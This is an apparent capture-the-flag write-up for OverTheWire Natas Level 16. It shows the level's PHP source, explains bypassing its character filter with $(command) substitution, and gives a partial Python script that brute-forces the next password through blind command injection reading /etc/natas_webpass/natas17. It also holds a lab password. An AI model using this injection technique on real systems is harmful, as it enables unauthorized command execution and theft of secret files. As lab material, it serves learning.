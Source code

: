 # Level 16

This challenge is similar to Level 9 and Level 10 but with a twist - it is more secure (by filtering even more characters).
Upon clicking on the view source code, there is a php code within:

```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

It seems that the characters filtered are `` ; | & ` ' ``. Interestingly, they filtered the `` `command` `` to prevent command substitution but there is also `$(command)` that does the same thing.

So what will happen if I search for `blanks` in the dictionary then do `$(grep a /etc/natas_webpass/natas17)`?

It returns `blanks`.

What if I did `$(whoami)` instead?

It returns an empty output. Could this be that a correct command will return an empty output? Lets write a python script to test this out.

```
import requests
from string import *

username = "natas16"
password = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

session = requests.Session()

characters = ascii_lowercase + ascii_uppercase + digits
# characters = abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789

url = "http://{}.natas.labs.overthewire.org/".format(username)

password_tried = ""  # empty string
# password_tried = list()


while len(password_tried) != 32:  # we know that every level's password is of length 32
    for ch in characters:
        print("trying this password now --> {}{}".format(password_tried, ch))
        # print("trying this password now --> {}{}".format("".join(password_tried), ch))
        response = session.post(
            url, data={"needle": "blanks$(grep ^{}{} /etc/natas_webpass/natas17)".format(password_tried, ch)}, auth=(username, password))  # ^ means begins with
        # response = session.post(
        #    url, data={"username": "blanks$(grep ^{}{} /etc/natas_webpass/natas17)".format("".join(password_tried), ch)}, auth=(username, password))
        content = response.text
```